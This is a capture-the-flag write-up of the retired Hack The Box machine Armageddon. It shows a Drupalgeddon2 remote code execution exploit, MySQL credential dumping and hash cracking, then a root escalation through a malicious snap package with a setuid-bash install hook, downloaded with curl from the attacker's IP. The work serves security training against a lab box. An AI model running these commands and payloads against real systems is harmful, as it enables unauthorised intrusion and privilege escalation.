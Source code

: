# Armageddon

This is the write-up for the box Armageddon that got retired at the 24th July 2021.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.233   armageddon.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/armageddon.nmap 10.10.10.233
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
```

## Checking HTTP (Port 80)

The website shows a login form which requires a username and password.
As the initial scan found, a _robots.txt_ file can be accessed, which shows many directories and files.

The file _CHANGELOG.txt_ shows that the web service is running **Drupal 7.56** from June 2017.

Searching for public vulnerabilities:
```
searchsploit drupal 7
```

There are some Remote Code Execution vulnerabilities that are called **Drupalgeddon2** and I will use the Ruby script:
```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```

Running the script:
```
ruby 44449.rb http://10.10.10.233/
```

After running the script, it starts a shell session as the user _apache_.

## Privilege Escalation

The file _sites/default/settings.php_ in the web directory contains credentials for a **MySQL** database:
```
(...)
'database' => 'drupal',
'username' => 'drupaluser',
'password' => 'CQHEy@9M*m23gBVj',
'host' => 'localhost',
'port' => '',
'driver' => 'mysql',
(...)
```

The shell from the exploit is not a real TTY shell, so instead of login into the database, commands need to be specified on the command line:
```
mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'show tables'

mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'describe users'

mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'select name, pass from users'
```
```
brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

The table _users_ has a hash for the user _brucetherealadmin_ which also exists on the box.

Trying to crack the hash with **John The Ripper**:
```
john drupal.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

The password gets cracked and it is:
> booboo

The password works on the user with SSH:
```
ssh brucetherealadmin@10.10.10.233
```

### Privilege Escalation to root

When checking the permissions of _brucetherealadmin_ with `sudo -l`, the user has privileges to install packages with `snap` as root:
```
User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

The binary _snap_ has an [entry in GTFObins](https://gtfobins.github.io/gtfobins/snap/) which makes it possible to escalate privileges to root.

Installing [fpm](https://github.com/jordansissel/fpm):
```
gem install --no-document fpm
```

Creating a malicious binary
```
COMMAND="chown root:root /home/brucetherealadmin/bash; chmod 4755 /home/brucetherealadmin/bash"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

Copying `bash` in the home folder of _brucetherealadmin_:
```
cp /usr/bin/bash /home/brucetherealadmin/
```

Uploading package _xxxx_1.0_all.snap_ onto the box:
```
curl 10.10.14.8/xxxx_1.0_all.snap -o privesc.snap
```

Installing package with sudo permissions:
```
sudo snap install privesc.snap --dangerous --devmode
```

After the package is installed, it will execute the specified command and `bash` can be executed:
```
./bash -p
```

The _euid_ is root and thus the privileges got escalated!
